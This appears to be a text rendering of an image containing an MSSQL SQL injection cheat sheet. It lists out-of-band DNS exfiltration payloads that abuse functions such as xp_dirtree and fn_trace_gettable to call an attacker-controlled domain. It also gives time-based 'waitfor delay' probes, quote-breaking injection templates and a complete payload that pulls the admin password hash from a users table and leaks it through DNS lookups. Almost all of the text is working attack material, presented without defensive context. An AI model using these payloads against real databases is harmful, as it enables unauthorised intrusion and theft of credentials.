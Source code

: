 | SQL Function | SQL Query |
| --- | --- |
| `master..xp_dirtree` | `DECLARE @T varchar(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_dirtree "\\'+@T+'.HACKERSDOMAIN.com\\x"');` |
| `master..xp_fileexist` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_fileexist "\\'+@T+'.HACKERSDOMAIN.com\\x"');` |
| `master..xp_subdirs` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);EXEC('master..xp_subdirs "\\'+@T+'.HACKERSDOMAIN.com\\x"');` |
| `sys.dm_os_file_exists` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM sys.dm_os_file_exists('\\'+@T+'.HACKERSDOMAIN.com\x');` |
| `fn_trace_gettable` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_trace_gettable('\\'+@T+'.HACKERSDOMAIN.com\x.trc',DEFAULT);` |
| `fn_get_audit_file` | `DECLARE @T VARCHAR(1024);SELECT @T=(SELECT 1234);SELECT * FROM fn_get_audit_file('\\'+@T+'.HACKERSDOMAIN.com\',DEFAULT,DEFAULT);` |

- OUT-OF-Band DNS Request
  
  - waitfor delay '00:00:10'
- username=admin'; waitfor delay '00:00:10' --+
  
- DECLARE @reza VARCHAR(1024);select @reza=(select 1234 );
  
- '; PAYLOAD --+
  
- "; PAYLOAD --+
  
- '); PAYLOAD --+
  
- "); PAYLOAD --+
  
- ; PAYLOAD --+
  

```sql
test';DECLARE @T VARCHAR(MAX);SELECT @T=CONVERT(VARCHAR(MAX), CONVERT(VARBINARY(MAX), password), 1) from users WHERE username='admin'; SELECT * FROM fn_trace_gettable('\\'%2bsubstring(@T,1,30)%2b'.'%2bsubstring(@T,31,60)%2b.test.com\x.trc',DEFAULT);--+- 
```
